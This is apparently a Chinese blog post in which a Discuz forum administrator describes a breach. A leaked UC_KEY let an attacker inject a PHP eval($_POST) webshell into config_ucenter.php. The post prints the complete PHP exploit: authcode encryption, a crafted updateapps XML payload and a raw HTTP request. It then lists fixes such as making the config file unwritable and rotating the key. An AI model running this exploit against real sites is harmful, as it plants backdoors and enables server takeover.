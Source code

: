 ```yaml
---
title: 140212 Discuz UC_KEY泄露导致获得WebShell
layout: post
permalink: /2735.html
categories:
  - Code
tags:
  - discuz
  - uc_key
  - webshell
---
```

吃饭的时候同事发了个微信给我，说社区头像都显示不了了，当时没太在意，估计是cdn的问题。回来后打开网站自己看了下，乖乖把我吓坏了竟然出现了这么个情况。 所有头像地址都变为： http://xxx\');eval($\_POST\[DOM]);//avastar.php?uid=123&#038;size=middle 一看就知道是被人黑了，估计还拿到了webshell. 果断看了下代码做了断点调试，确实是ucenterurl中的值被更改了 function avatar($uid, $size = 'middle', $returnsrc = FALSE, $real = FALSE, $static = FALSE, $ucenterurl = '') { global $\_G; if($\_G['setting'\]\['plugins'\]\['func'\]\[HOOKTYPE\]\['avatar']) { $\_G['hookavatar'] = ''; $param = func\_get\_args(); hookscript('avatar', 'global', 'funcs', array('param' => $param), 'avatar'); if($\_G['hookavatar']) { return $\_G['hookavatar']; } } static $staticavatar; if($staticavatar === null) { $staticavatar = $\_G['setting'\]\['avatarmethod'\]; } $ucenterurl = empty($ucenterurl) ? $\_G\['setting'\]\['ucenterurl'\] : $ucenterurl; $size = in\_array($size, array('big', 'middle', 'small')) ? $size : 'middle'; $uid = abs(intval($uid)); if(!$staticavatar && !$static) { return $returnsrc ? $ucenterurl.'/avatar.php?uid='.$uid.'&size='.$size : '<img src="'.$ucenterurl.'/avatar.php?uid='.$uid.'&size='.$size.($real ? '&type=real' : '').'" />'; } else { $uid = sprintf("%09d", $uid); $dir1 = substr($uid, 0, 3); $dir2 = substr($uid, 3, 2); $dir3 = substr($uid, 5, 2); $file = $ucenterurl.'/data/avatar/'.$dir1.'/'.$dir2.'/'.$dir3.'/'.substr($uid, -2).($real ? '\_real' : '').'\_avatar\_'.$size.'.jpg'; return $returnsrc ? $file : '<img src="'.$file.'" onerror="this.onerror=null;this.src=\''.$ucenterurl.'/images/noavatar\_'.$size.'.gif\'" />'; } } 在config/config\_ucenter.php 中的 UC\_API 的值变成了一句话木马。根据字符特征，很快找到了exp <?php $timestamp = time()+10\*3600; $host="127.0.0.1"; $uc\_key="eapf15K8b334Bc8eBeY4Gfn1VbqeA0N5Waofq6J285Ca33i151e551g0l9f2l3dd"; $code=urlencode(\_authcode("time=$timestamp&action=updateapps", 'ENCODE', $uc\_key)); $cmd1='<?xml version="1.0" encoding="ISO-8859-1"?> <root> <item id="UC\_API">http://xxx\');eval($\_POST[DOM]);//</item> </root>'; $cmd2='<?xml version="1.0" encoding="ISO-8859-1"?> <root> <item id="UC\_API">http://aaa</item> </root>'; $html1 = send($cmd1); echo $html1; $html2 = send($cmd2); echo $html2; function send($cmd){ global $host,$code; $message = "POST /api/uc.php?code=".$code." HTTP/1.1\r\n"; $message .= "Accept: \*/\*\r\n"; $message .= "Referer: ".$host."\r\n"; $message .= "Accept-Language: zh-cn\r\n"; $message .= "Content-Type: application/x-www-form-urlencoded\r\n"; $message .= "User-Agent: Mozilla/4.0 (compatible; MSIE 6.00; Windows NT 5.1; SV1)\r\n"; $message .= "Host: ".$host."\r\n"; $message .= "Content-Length: ".strlen($cmd)."\r\n"; $message .= "Connection: Close\r\n\r\n"; $message .= $cmd; //var\_dump($message); $fp = fsockopen($host, 80); fputs($fp, $message); $resp = ''; while ($fp && !feof($fp)) $resp .= fread($fp, 1024); return $resp; } function \_authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) { $ckey\_length = 4; $key = md5($key ? $key : UC\_KEY); $keya = md5(substr($key, 0, 16)); $keyb = md5(substr($key, 16, 16)); $keyc = $ckey\_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey\_length): substr(md5(microtime()), -$ckey\_length)) : ''; $cryptkey = $keya.md5($keya.$keyc); $key\_length = strlen($cryptkey); $string = $operation == 'DECODE' ? base64\_decode(substr($string, $ckey\_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string; $string\_length = strlen($string); $result = ''; $box = range(0, 255); $rndkey = array(); for($i = 0; $i <= 255; $i++) { $rndkey[$i] = ord($cryptkey[$i % $key\_length]); } for($j = $i = 0; $i < 256; $i++) { $j = ($j + $box[$i] + $rndkey[$i]) % 256; $tmp = $box[$i]; $box[$i] = $box[$j]; $box[$j] = $tmp; } for($a = $j = $i = 0; $i < $string\_length; $i++) { $a = ($a + 1) % 256; $j = ($j + $box[$a]) % 256; $tmp = $box[$a]; $box[$a] = $box[$j]; $box[$j] = $tmp; $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256])); } if($operation == 'DECODE') { if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) { return substr($result, 26); } else { return ''; } } else { return $keyc.str\_replace('=', '', base64\_encode($result)); } } ?> 网上没有相关的对策不过oldjun说得很对这玩意漏洞必须满足2个条件： 1.必须知道UC\_KEY，通常在配置文件里，或者ucenter的原始（没有经过修改的）数据库（应用）中； 2.配置文件config\_ucenter.php必须可写。 说白了是因为在做cdn源的时候比较粗肢的把php源代码包含了一部分出去，所以hacker可以根据相对路径获取到uc\_key的内容。 关于如何解决: 1：修改 config\_ucenter.php 权限为不可写 2：修改 api/uc.php 中 代码，把之注释掉 3: 更改 uc\_key ，并且保证config\_ucenter.php中的与uc\_server/data/cache/apps.php中的一致 if ($UC\_API && is\_writeable ( DISCUZ\_ROOT . './config/config\_ucenter.php' )) { if (preg\_match ( '/^https?:\/\//is', $UC\_API )) { $configfile = trim ( file\_get\_contents ( DISCUZ\_ROOT . './config/config\_ucenter.php' ) ); $configfile = substr ( $configfile, - 2 ) == '?>' ? substr ( $configfile, 0, - 2 ) : $configfile; $configfile = preg\_replace ( "/define\('UC\_API',\s\*'.*?'\);/i", "define('UC\_API', '" . addslashes ( $UC\_API ) . "');", $configfile ); if ($fp = @fopen ( DISCUZ\_ROOT . './config/config_ucenter.php', 'w' )) { //@fwrite ( $fp, trim ( $configfile ) ); @fclose ( $fp ); } } } 本文参考: http://www.oldjun.com/blog/index.php/archives/76/ http://www.unhonker.com/bug/1509.html